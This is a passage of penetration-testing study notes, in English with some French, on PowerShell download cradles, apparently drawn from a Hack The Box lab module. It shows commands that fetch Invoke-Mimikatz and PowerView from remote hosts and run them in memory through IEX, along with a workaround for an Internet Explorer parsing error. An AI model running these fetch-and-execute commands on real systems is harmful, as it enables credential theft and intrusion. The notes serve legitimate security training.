 `IEX` also accepts pipeline input.

{% code overflow="wrap" fullWidth="true" %}
```powershell
PS C:\htb> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```
{% endcode %}

{% hint style="info" %}
<mark style="color:orange;">**Le terme**</mark><mark style="color:orange;">**&#x20;**</mark><mark style="color:orange;">**`IEX`**</mark> dans PowerShell est l'alias de la cmdlet **`Invoke-Expression`**. Cette cmdlet est utilisée pour évaluer et exécuter une chaîne de texte comme du code PowerShell. C'est un moyen de faire en sorte que du code soit interprété et exécuté en mémoire sans être stocké sur le disque.
{% endhint %}

<mark style="color:orange;">**PowerShell Invoke-WebRequest**</mark>

From PowerShell 3.0 onwards, the [Invoke-WebRequest](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.2) cmdlet is also available, but it is noticeably slower at downloading files. You can use the aliases `iwr`, `curl`, and `wget` instead of the `Invoke-WebRequest` full name.

{% code overflow="wrap" fullWidth="true" %}
```powershell
PS C:\htb> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```
{% endcode %}

Harmj0y has compiled an extensive list of PowerShell download cradles [here](https://gist.github.com/HarmJ0y/bb48307ffa663256e239).&#x20;

<mark style="color:orange;">**Common Errors with PowerShell**</mark>

There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download.

<div data-full-width="false"><img src="https://academy.hackthebox.com/storage/modules/24/IE_settings.png" alt="image" width="375"></div>

<mark style="color:orange;">**This can be bypassed using the parameter**</mark><mark style="color:orange;">**&#x20;**</mark><mark style="color:orange;">**`-UseBasicParsing`**</mark><mark style="color:orange;">**.**</mark>

{% code overflow="wrap" fullWidth="true" %}
```powershell
PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 | IEX

Invoke-WebRequest : The response content cannot be parsed because the Internet Explorer engine is not available, or Internet Explorer's first-launch configuration is not complete. Specify the UseBasicParsing parameter and try again.
At line:1 char:1
+ Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/P ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
+ CategoryInfo : NotImplemented: (:) [Invoke-WebRequest], NotSupportedException
+ FullyQualifiedErrorId : WebCmdletIEDomNotSupportedException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand

PS C:\htb> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```
{% endcode %}
